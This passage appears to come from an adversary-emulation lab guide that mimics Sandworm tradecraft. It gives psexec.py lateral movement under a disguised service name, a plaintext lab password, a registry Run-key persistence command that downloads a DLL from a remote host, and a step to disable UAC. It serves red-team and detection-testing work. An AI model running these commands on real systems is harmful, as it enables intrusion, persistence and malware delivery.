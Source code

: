 **Note**: `smbclient` may produce the following message: `Unable to initialize messaging context.` This message can be safely ignored.

Use psexec.py to gain a bind-shell to gammu/10.0.1.7 over SMB (TCP 445):

```bash
# Sandworm-associated malware including Olympic Destroyer, BlackEnergy, and notPetya use PsExec to interact with the ADMIN$ network share to execute commands on remote systems.

# The Exaramel for Windows dropper creates and starts a Windows service named wsmprovav with the description "Windows Check AV."

psexec.py -service-name "Windows Check AV" TESTLAB-VICTIM6/VICTIM6@192.168.20.74
```

Enter password:

`VMT3st#123`

:warning: Observe the PsExec binary name, and paste it in the Slack chat for easy identification:

```bash
# Your EXE name will differ

[*] Uploading file enTHfBuw.exe
```

Load the registry hive for user fherbert.

```bash
reg.exe LOAD HKU\Temp "C:\Users\VICTIM6\NTUSER.DAT"
```

Set registry persistence for user fherbert only.

This will execute a Exaramel-Windows dropper on fherbert login.

```bash
# Sandworm associated malware such as Exaramel-Windows and Olympic Destroyer have modified the registry.

# Sandworm Team used a backdoor which could execute a supplied DLL using rundll32.exe.
```
```bash
reg.exe ADD HKU\Temp\Software\Microsoft\Windows\CurrentVersion\Run /t REG_EXPAND_SZ /v SecurityHealth /d "C:\Windows\wsmprovav.exe http://10.10.0.120:8080/getFile/wsmprovav.dll C:\Windows\wsmprovav.dll"
```

`!!! Turn off UAC`

Terminate the PsExec.py session. Keep your terminal open.

```bash
exit
```

You will now RDP into gammu, role-playing as the legitimate fherbert user.

From your current terminal, run:
